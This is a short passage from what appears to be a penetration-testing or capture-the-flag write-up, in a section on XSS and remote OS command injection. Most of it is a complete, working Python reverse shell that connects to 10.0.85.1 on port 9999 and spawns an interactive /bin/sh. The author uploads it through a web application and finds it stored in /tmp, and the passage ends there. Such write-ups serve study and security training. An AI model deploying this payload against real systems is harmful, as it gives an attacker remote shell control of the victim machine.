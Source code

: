 5. Cross Site Scripting (XSS) & Remote OS Command Injection:

I created malicious Python code:

```python
import socket
import subprocess
import os

ip = '10.0.85.1'
port = 9999

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((ip, port))

os.dup2(sock.fileno(), 0)
os.dup2(sock.fileno(), 1)
os.dup2(sock.fileno(), 2)

subprocess.call(["/bin/sh", "-i"])

```

I uploaded it using the upload button:

![alt text](images/image-32.png)

![alt text](images/image-33.png)

When I investigated, I found that the files were stored in the `/tmp` directory:
